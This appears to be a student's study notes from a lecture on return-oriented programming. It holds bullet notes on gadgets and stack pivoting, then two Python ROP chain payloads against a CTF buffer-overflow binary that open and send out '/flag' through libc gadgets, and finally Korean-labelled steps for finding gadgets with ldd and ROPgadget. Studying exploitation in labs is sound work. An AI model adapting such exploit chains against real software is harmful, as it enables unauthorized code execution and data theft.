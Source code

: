 Gadgets address base and reuse it

ADD REGISTER
1. PUt that value on the stack
2. POP gadget
SKIP REGISTER
1. POP gadget
NOP
1. ret;
	1. Go to next address and next gadget
	2. SKIP and go NEXT
2. nop ret
STACK PIVOTING
1. xchg
	1. EXCHANGE REGISTER VALUE
	2. ATOMIC instruction
	3. exchange RSP
	4. Original space
	5. NO limitation of overflowed stack anymore
2. LOC

syscall instuction
	VERY RARE

OPEN FILE/READ FILE/CHANGE THE OWNER/CHANGE OF THE PERMISSION
> Function call to C library (Systemcall wrapper) -> 

OPEN THE FLAG and print value> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,10,0,11|L13 Return-oriented Programming, p.38]]
> > ,
> 
> STDOUR> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,36,0,40|L13 Return-oriented Programming, p.38]]> [!PDF|] [[L13 Return-oriented Programming.pdf#page=42&selection=40,2,40,6|L13 Return-oriented Programming, p.42]]
> flag
.data section

> > 1000
> 
> OFfset


```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e6b85b) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
p += pack('<Q', 0x00007ffff7f221e2) # mov rsi, rax ; shr ecx, 3 ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret  
p += pack('<Q', 0x00007ffff7de6b72) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7edc371) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e716eb) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
#pop rsi ret

p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000001) # 3  
p += pack('<Q', 0x00007ffff7f28468) # rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee2431) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

1. ldd로 확인
```
ctf@bufferoverflow_overflowret4_no_excstack_64:/$ ldd ./bufferoverflow_overflowret4_no_excstack_64 
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
2. ROPGADGET으로 가젯 찾기
```
python3 ROPgadget/ROPgadget.py --binary ./bufferoverflow_overflowret4_no_excstack_64

python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6


```
3. objdump로 메모리 주소 확인하기